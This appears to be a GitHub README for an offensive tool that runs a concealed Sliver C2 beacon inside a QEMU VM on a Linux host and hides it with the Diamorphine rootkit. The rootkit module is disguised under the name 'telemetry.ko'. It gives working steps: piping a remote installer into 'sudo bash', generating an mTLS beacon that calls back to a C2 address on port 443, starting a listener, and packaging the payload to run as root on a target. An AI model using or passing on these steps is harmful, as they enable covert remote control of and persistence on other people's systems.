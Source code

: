 Linux environment setup script that builds u-root, runs a concealed Sliver C2 agent in QEMU, and hides the process using Diamorphine rootkit.

Tested on Ubuntu 16.04.7 LTS (Xenial Xerus) (GNU/Linux 4.4.0-186-generic x86_64).

- Change IP address of your C2 server;
- Compile Sliver C2 beacon as following:
```bash
curl https://sliver.sh/install|sudo bash

sliver

generate beacon --mtls 10.4.10.10:443 --os linux --arch amd64 --format elf --save slivki

mtls --lport 443
```
- Add slivki (Sliver C2 beacon), telemetry.ko (Diamorphine rootkit) and deploy.sh script to a deploy.tar.gz archive and execute starter.sh on a host as root;



Credits:

- https://github.com/m0nad/Diamorphine
- https://github.com/u-root/u-root
- https://github.com/qemu/qemu

---

![Alt Text]([https://imgur.com/yxWqAgM](https://i.imgur.com/yxWqAgM.jpeg))


